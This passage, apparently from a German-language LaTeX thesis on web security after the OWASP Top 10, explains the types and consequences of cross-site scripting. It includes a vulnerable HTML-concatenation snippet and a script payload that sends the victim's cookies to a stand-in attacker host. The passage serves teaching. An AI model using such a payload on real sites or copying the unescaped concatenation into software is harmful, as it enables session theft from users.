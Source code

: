 \begin{itemize}
	\item persistent,
	\item reflektiert und
	\item DOM-basiert.
\end{itemize}

Die XSS-Vulnerabilitäten können sehr einfach durch die Tests oder Code-Reviews erkannt werden\cite{owasp13top10}.

Angreifer können durch die Ausführung von Skripten im Browser des Opfers die Session übernehmen, Webseiten verändern, andere Inhalte einfügen, Benutzer umleiten oder den Browser des Benutzers mit Malware infizieren\cite{owasp13top10}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\

Um folgenden HTML-Code zu generieren übernimmt die Anwendung nicht vertrauenswürdige Daten, die auf Gültigkeit geprüft werden\cite{owasp13top10}:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 1},captionpos=b, label=LaTeXCode:xxs1][numbers=none]
(String) seite += "<input name='kreditkarte' type='TEXT'
wert='" + anfrage.gibParameter("KK") + "'>";
\end{LaTeXCode}

Der Parameter \texttt{KK} wird im Browser durch den Hacker geändert:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 2},captionpos=b, label=LaTeXCode:xxs2][numbers=none]
<script>dokumente.ort=
http://www.angreifer.com/abc-bin/cookies.abc?
var='+dokumente.cookies</script>
\end{LaTeXCode}

Somit kann die Session-ID des Opfers an die Seite des Hackers geschickt werden, wodurch der Hacker die aktuelle Session des Users übernehmen kann\cite{owasp13top10}.\\

\subsubsection{Unsichere Deserialisierung}

